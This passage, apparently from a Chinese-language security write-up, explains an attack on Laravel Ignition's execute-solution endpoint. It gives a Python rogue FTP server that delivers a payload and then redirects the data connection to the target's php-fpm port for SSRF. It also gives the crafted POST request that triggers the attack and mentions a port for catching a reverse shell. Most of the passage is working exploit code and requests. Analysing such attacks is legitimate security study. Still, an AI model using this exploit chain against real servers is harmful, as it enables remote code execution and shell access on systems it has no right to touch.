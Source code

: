 ```python
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n")  # 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据连接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1

```

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的payload；当客户端第二次连接的时候将客户端的连接重定向到127.0.0.1:9000，也就是目标主机上php-fpm服务的端口，从而造成SSRF，攻击其php-fpm。

最后构造如下请求

```json
POST /_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: application/json

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "ftp://aaa@ip:1234/123"
  }
}
```

注意1234是我们服务器起ftp的端口，port1是我们服务器另起一个端口处理反弹过来的shell。

## 0x05 参考

https://mp.weixin.qq.com/s/k08P2Uij_4ds35FxE2eh0g

https://www.anquanke.com/post/id/235228#h2-1

